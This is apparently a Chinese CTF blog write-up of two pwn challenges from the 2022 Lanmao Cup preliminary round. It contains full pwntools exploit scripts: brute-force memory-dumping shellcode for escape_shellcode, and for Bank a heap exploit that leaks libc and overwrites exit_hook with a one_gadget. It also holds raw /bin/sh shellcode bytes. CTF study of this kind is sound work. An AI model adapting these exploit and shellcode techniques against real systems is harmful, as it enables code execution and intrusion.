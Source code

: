 ```yaml
---
title: 2022 蓝帽杯初赛 pwn 复现
date: 2022-07-10 02:54:59 +0800
categories:
  - ctf比赛
tags:
  - pwn
  - ctf
permalink: /posts/id=30/
pin: false
published:
---
```


## escape_shellcode(PIE+无libc/orw+shellcode爆破读取)

![image-20220710092803063](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220710092803063.png)

![image-20220710113202330](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220710113202330.png)

题目把flag读在bss段上，没给libc还开了pie，开了一个7权限的堆块区域0x2000，可以对堆块写0x100，执行之前会执行把除了rip其他寄存器清零的shellcode

![image-20220710092821892](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220710092821892.png)

注意的点，堆地址高5位和基地址相同，从基地址开始0x1000地读

```python
# _*_ coding:utf-8 _*_
from pwn import *
context.log_level='debug'
context(arch='amd64', os='linux')

p = process("./escape_shellcode")
elf = ELF("./escape_shellcode")
libc = elf.libc

def dbg():
    gdb.attach(p)

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

base=0x500000000000

shell='''
mov rdi,1
mov rsi,{}
mov rdx,0x1000
mov r14,0xfffff0000000
mov r15,0x1000
mov rax,1
syscall


mov rsi,rcx
and rsi,r14
add rsi,r15
add r15,0x1000
jmp $-0x19
'''.format(base)

p.send(asm(shell))

p.recvuntil("flag{")
flag = 'flag{'+p.recvuntil("}")
print(flag)
```

## Bank(exit_hook)

![image-20220710112051939](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220710112051939.png)

程序比较复杂，IDA解析也有点小问题，但可以看汇编。漏洞点在于

![image-20220710112202729](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220710112202729.png)

取钱操作中，如果取的钱和bank里的钱一致，不会减掉bank里的钱，就可以刷钱了，这里要多刷一点，因为在tran函数中的各个功能函数的参数是我们读入的钱数，如果钱少就执行不了。特别是任意地址泄露这个功能，这里我们可能要取很大的值。

![image-20220710112457335](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220710112457335.png)

利用思路是abyss函数可以实现一个edit的效果，只需要在bss变量这个堆里写入exit_hook，再改为one即可，难点在于libc地址的泄露，需要利用题目的任意地址free功能，用0x20的堆做一个堆合并，泄露main_arena。

![image-20220710112635037](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220710112635037.png)

```python
# _*_ coding:utf-8 _*_
from pwn import *
context.log_level='debug'
context(arch='amd64', os='linux')

p = process("./Bank")
elf = ELF("./Bank")
libc = elf.libc

def dbg(code=''):
    gdb.attach(p,code)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))
#-----------------------------------------------------------------------------------------

def cmd(choice):
    sla("Click: ",choice)

def Deposit(num):
    cmd("Deposit")
    sla("How Much? ",num)

def Put(num):
    cmd("Put")
    sla("How Much? ",num)

def Info():
    cmd("Info")

def Login(card, pwd):
    cmd("Login")
    sla(": ",card)
    sla(": ",pwd)

def Transfer(who,num):
    cmd("Transfer")
    sla("who? ",who)
    sla("How much? ",num)

# malloc_0x18[num]
def ReadHeap(num):
    Transfer("admin", num)

def FreeAddr(addr):
    Transfer("hacker", 0x33)
    sla("hacker: Great!\n",addr)

def Malloc_0x10(data):
    Transfer("guest", 6)
    p.sendafter("data: ",data)

def Realloc(size):
    Transfer("ghost", 0xB)
    sla('ghost: &^%$#@!   :)\n',size)

# malloc_0x18 = addr
def edit(addr):
    Transfer("abyss", 0)
    p.sendline(str(addr))

#---------------------------------------------------
Login("0"*0x10, "0"*0x6)

cash= 0x100
mycash = 0x203010
bankcash = 0x2030A8

for i in range(0x30):
    Put(cash)
    Deposit(cash)
    Put(cash)
    cash*=2

for i in range(8):
    Malloc_0x10(str(i)*0x10)

Realloc(0x100)
Realloc(0x1)
ReadHeap(0x148/8)
p.recvuntil("0x")
heap_base = int(p.recv(12),16)-0x10
lg("heap_base")

Malloc_0x10(p64(0)+p64(0x421))
for i in range(35):
    Malloc_0x10(p64(0)+p64(0x21))

FreeAddr(heap_base+0x4d0+0x10)# 0x420
ReadHeap(0x240/8) 
p.recvuntil("0x")
libc_base =int(p.recv(12),16)-0x1ebbe0
lg('libc_base')

rtld_global_addr = libc_base+libc.sym['_rtld_global']
lg('rtld_global_addr')
ReadHeap(((rtld_global_addr-(heap_base+0x2a0))/8))
p.recvuntil("0x")
rtld_global = int(p.recv(12),16)
lg("rtld_global")
exit_hook = rtld_global+3848
lg("exit_hook")
one = libc_base+0xe6c7e
#-------------------------------------------------------------


FreeAddr(heap_base+0x2a0)
Malloc_0x10(p64(exit_hook)*2)
edit(one)
p.interactive()
```


